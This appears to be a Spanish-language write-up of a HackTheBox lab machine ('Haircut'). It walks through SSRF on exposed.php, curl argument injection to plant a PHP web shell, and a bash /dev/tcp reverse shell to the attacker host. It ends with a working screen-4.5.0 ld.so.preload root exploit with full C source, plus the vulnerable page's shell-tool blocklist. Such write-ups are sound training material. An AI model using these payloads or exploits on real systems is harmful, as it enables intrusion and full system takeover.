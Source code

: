 10.10.10.24
------------

Puertos abiertos 22(shh) y 80(http)

```console
└─$ whatweb http://10.10.10.24
HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], IP[10.10.10.24], Title[HTB Hairdresser]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.24/FUZZ'
000000150:   301        7 L      13 W       194 Ch      "uploads"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://10.10.10.24/FUZZ.php'
000025043:   200        19 L     41 W       446 Ch      "exposed"
```
El fuzzing por subdominios no resuelve.

**/uploads** -> 403 forbidden
**/exposed.php**

Hay una web que dice que que así "Pon la dirección de la peluquería que te gustaria visitar. Por ejemplo: http://localhost/test.html"

Hay un panel que pone "http://localhost/test.html" y en un iframe nos muestra una foto.
Si por curiosidad buscamos "http://10.10.10.24/test.html" sale la misma foto.

En un iframe la web muestra contenido propio, (es como la máquina forge). Encima al ser localhost, se hace
peticiones a si mismo, por lo que puede mostrar contenido retringido al exterior. Esto se llama "SSRF".

La peticion es ```/POST a /exposed.php con los parametros formurl=http://localhost/test.html&submit=Go```

## Internal Port Discovery

Por http se puede acceder a puertos internos -> http://IP:puerto
```console
└─$ wfuzz -X POST --hw=83,95 -z range,0000-9999 -d "formurl=http://localhost:FUZZ&submit=Go" http://10.10.10.24/exposed.php
000000023:   200        25 L     97 W       898 Ch      "0022"
000000081:   200        29 L     100 W      932 Ch      "0080"
000003307:   200        22 L     92 W       909 Ch      "3306"
```
El puerto 3306 es sql, por lo que habrá una base de datos corriendo en algun lado.

## Fuzzing de subdominios
```console
└─$ wfuzz -X POST -w $(locate subdomains-top1million-5000.txt) -d "formurl=http://FUZZ.localhost&submit=Go" http://10.10.10.24/exposed.php
000000007:   200        22 L     319 W      2340 Ch     "webdisk"
000000003:   200        22 L     319 W      2336 Ch     "ftp"
000000001:   200        22 L     319 W      2336 Ch     "www"
000000006:   200        22 L     307 W      2258 Ch     "smtp"
000000008:   200        22 L     307 W      2257 Ch     "pop"
000000015:   200        22 L     319 W      2335 Ch     "ns"
000000023:   200        22 L     319 W      2338 Ch     "forum"
000000039:   200        22 L     319 W      2337 Ch     "dns2"
000000041:   200        22 L     307 W      2258 Ch     "dns1"
000000038:   200        22 L     307 W      2258 Ch     "demo"
```

Aun así probando con cualquiera de estos se queda colgado.

```console
└─$ wfuzz -X POST --hw=98,53,110 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -d "formurl=http://localhost/FUZZ/&submit=Go" http://10.10.10.24/exposed.php
000000150:   200        29 L     96 W       966 Ch      "uploads"
000002010:   200        19 L     43 W       471 Ch      "'"  
```


## RFI

Si en vez de apuntar al localhost, apuntamos a nuestro servidor ```sudo python3 -m http.server 80``` -> ```http://10.10.14.16```

Intentamos subir un index.html pero no lo ejecuta
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Como el comando que está ejecutando el servidor es un "curl" (se ve por "% Total % Received % Xferd Average...")

```<?php system($_REQUEST['cmd']); ?>```

Hay una opción en curl para depositar archivos **-o**:
```http://10.10.14.16/cmd.php -o /var/www/html/uploads/cmd.php```

```console
└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'"
```

Recibimos una shell por el puerto 443.

- Usuarios del Sistema ->  root maria
- SUIDs -> /usr/bin/screen-4.5.0


```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```console
└─$ gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c 
```
```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```console
└─$ gcc -o ./rootshell ./rootshell.c
```
```console
www-data@haircut:/tmp$ curl http://10.10.14.16/libhax.so -O
www-data@haircut:/tmp$ curl http://10.10.14.16/rootshell -O
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/tmp$ screen -ls
www-data@haircut:/tmp$ ./rootshell
# whoami
root
```


# Extra

```php
<?php
	if(isset($_POST['formurl'])){
	echo "<p>Requesting Site...</p>";
	$userurl=$_POST['formurl'];
	$naughtyurl=0;
	$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
	foreach($disallowed as $naughty){
		if(strpos($userurl,$naughty) !==false){
			echo $naughty.' is not a good thing to put in a URL';
			$naughtyurl=1;
		}
	}
	if($naughtyurl==0){
		echo shell_exec("curl ".$userurl." 2>&1");
	}
	}
?>
```
